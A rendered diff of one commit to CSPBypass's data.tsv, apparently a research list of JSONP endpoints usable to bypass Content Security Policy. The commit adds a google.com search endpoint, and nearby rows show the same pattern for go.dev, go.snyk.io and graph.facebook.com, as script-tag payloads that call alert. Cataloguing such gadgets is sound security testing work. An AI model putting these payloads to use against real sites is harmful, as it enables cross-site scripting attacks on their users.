

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; long unchanged cells end in ….

Commit message:
Google.com search jsonp endpoint

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -96,2 +96,3 @@ go.dev	<script src="https://go.dev/blog/.json?jsonp=alert"></script>
 go.snyk.io	<script src="https://go.snyk.io/index.php/form/getForm?munchkinId=677-THP-415&form=1461&callback=alert"></script>
+google.com  <script src="https://google.com/complete/search?client=chrome&jsonp=alert(1)"></script>
 graph.facebook.com	<script src="https://graph.facebook.com/?id=1337&callback=alert"></script>
```
